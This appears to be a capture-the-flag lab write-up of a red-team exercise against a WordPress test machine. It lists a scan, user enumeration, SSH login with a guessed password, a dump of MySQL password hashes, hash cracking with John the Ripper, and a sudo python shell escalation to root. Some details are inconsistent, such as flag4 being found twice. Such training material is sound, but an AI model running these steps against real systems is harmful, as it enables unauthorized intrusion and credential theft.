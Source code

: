 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:
###### **Command Used:**`$ nmap -sV 192.168.1.110`
![nmap results](Images/nmap_scan.PNG)

This scan identifies the services below as potential points of entry:
##### Target 1:

|   PORT  	| STATE 	|   SERVICE   	|                    VERSION                   	|
|:-------:	|:-----:	|:-----------:	|:--------------------------------------------:	|
|  22/tcp 	|  OPEN 	|     ssh     	| OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) 	|
| 80/http 	|  OPEN 	|     http    	|        Apache httpd 2.4.10 ((Debian))        	|
| 111/tcp 	|  OPEN 	|   rpcbind   	|               2-4 (RPC #100000)              	|
| 139/tcp 	|  OPEN 	| netbios-ssn 	|   Samba smbd 3.X-4.X (workgroup: WORKGROUP)  	|
| 445/tcp 	|  OPEN 	| netbios-ssn 	|   Samba smbd 3.X-4.X (workgroup: WORKGROUP)  	|


The following vulnerabilities were identified on each target:
##### Target 1:

|  VULNERABILITY 	| CVE NUMBER 	|   SEVERITY     	|    VULNERABILITY DESCRIPTION                   	|
|:-------:	|:-----:	|:-----------:	|:--------------------------------------------:	|
|  Username Enumeration	|CVE-2017-5487  |     Medium (CVSS Score: 5.3)     	|  Allows for unauthorized actors to access sensitive information without proper authorization.	|
| Weak Password Requirements 	|  CWE-521 	|     Medium-High    | Users lack minimal password requirements which increase the risk of attackers gaining access to accounts within the system.        	|
| Weak Password Encryptions (Salting) 	|     CVE-2020-5229	|   Severe (CVSS Score: 8.1   	|   Using weak or outdated hashing algorithm for storing passwords.            	|
| Exploitation for Privilege Escalation 	|  CVE-2006-0151 | High-Severe	|   The misconfiguration of user priveleages that leads to local users gaining higher privileges by running a Python script.  	|



_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
##### Target 1
The first sensitive document,`flag1.txt`, was found by searching through the page source information of the Service page of the website `http://192.168.1.110/service.html`.
#
![Flag1:Service Page of Website](Images/flag1_website_servicepage.PNG)

Next, the Red Team enumerated the users within the Wordpress site with the WPScan Wordpress Security Scanner.
**Command:**`wpscan --url http://192.168.1.110/wordpress --enumerate u`
#
![WPScan Command](Images/wpscan_cmd.PNG)

This command listed two users within the Wordpress site: `michael` and `steven`.
#
![Users Found](Images/wpscan_users.PNG)

With this information, Michael's account was able to be accessed via SSH due to the simplicity of his password. His password was `michael`.
**Commands:** `ssh michael@192.168.1.110`;`yes`;`michael`

![Access to Michael's Account](Images/ssh_michael.PNG)

Once logged in as Michael, the second sensitive document,`flag2.txt`, was exposed within the /var/www/ directory.

![Flag2](Images/Flag_2.PNG)

The document flag1.txt could be access again by navigating to the /var/www/html directory.
![Flag1:Michael's Account](Images/flag_1.PNG)

From this point, the Red Team navigated to the `wp_config.php` file to obtain the MYSQL database password.
#
![Path to wp_config.php](Images/path_wpconfig.PNG) ![MySQL Database Credentials](Images/MySQL_Creds.PNG)

With the MySQL database credentials, the Red Team was able to extract the password hashes of both Michael and Steven using the following commands:
`mysql -h localhost -u root -pR@v3nSecurity`
#
![MySQL Login](Images/mysql_login.PNG)

`show databases;`;`use wordpress;`;`show tables;`;`SELECT * FROM wp_users;`OR `SELECT ID, user_login, userpass FROM wp_users`
#
![Hashes Only](Images/hashes_only.PNG)
#
![Hashes Only](Images/hashes_verbose.PNG)
#
The hashes were then extracted from MySQL to .txt file located in the /tmp directory.
**Command:**`SELECT * FROM wp_users INTO OUTFILE '/tmp/wp_hashes.txt';`
#
![Hashes Extracted](Images/hashes_to_outputfile.PNG)

Before exiting MySQL, two sensitive pieces of material,`flag3` and `flag4` were found within the wp_posts table.
**Command:**SELECT * FROM wp_posts;
#
![Flag3 and Flag4](Images/flag3_flag4.PNG)

After exiting MySQL, the program John the Ripper (JtR) was then used to decipher the password hash for Steven.
**Command:**`john wp_hashes.txt` OR `john wp_hashes.txt --wordlist=/usr/share/wordlist/rockyou.txt`
#
![JtR](Images/JtR.PNG)
#
![Steven's Password](Images/steven_pwd.PNG)
#
With Steven's credentials, the Red Team was able to access his account and check for his current privelages.
**Commands:**`ssh steven@192.168.1.110`;`yes`;`pink84`;`sudo -l`
#
![Steven's Initial Privelages](Images/steven_initial_privelages.PNG)

Steven's current privelages allowed him to run python scripts. By using the following command, the Red Team was able to escalate his privelages to root.
**Command:**`sudo python -c 'import pty;pty.spawn("/bin/bash")'`;`sudo -l`
#
![Steven's Root Privelages](Images/steven_escalated_privelages.PNG)

By increasing Steven's privelages to root, this allowed for the Red Team to freely move through the website and access or change any file desired. The final sensitive document,`flag4.txt`, was discovered within the root directory.
#
![Flag4.txt](Images/flag4.PNG)